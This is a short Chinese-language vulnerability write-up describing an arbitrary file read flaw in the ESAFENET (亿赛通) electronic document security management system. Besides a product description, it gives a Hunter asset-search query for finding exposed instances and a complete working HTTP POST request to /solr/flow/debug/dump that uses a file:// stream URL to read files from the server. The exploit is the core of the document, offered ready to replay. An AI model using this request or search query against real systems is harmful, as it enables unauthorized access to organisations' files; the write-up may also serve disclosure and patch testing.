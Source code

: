 # 亿赛通电子文档安全管理系统dump存在任意文件读取漏洞

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统dump存在任意文件读取漏洞。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/4wb9My-pXr8E4yXJ/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-964287.png)

# 四、漏洞复现
```plain
POST /solr/flow/debug/dump?param=ContentStreams HTTP/1.1
Host: 192.168.31.24:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=31E80EEC9EE4DC0835A362E81A9D179F
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

stream.url=file:///C:\Program Files\
```

![1705153475375-338c2585-3f41-423d-9df8-cdef41bf28dc.png](./img/4wb9My-pXr8E4yXJ/1705153475375-338c2585-3f41-423d-9df8-cdef41bf28dc-651879.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pt6h9gddl8ipaiz8>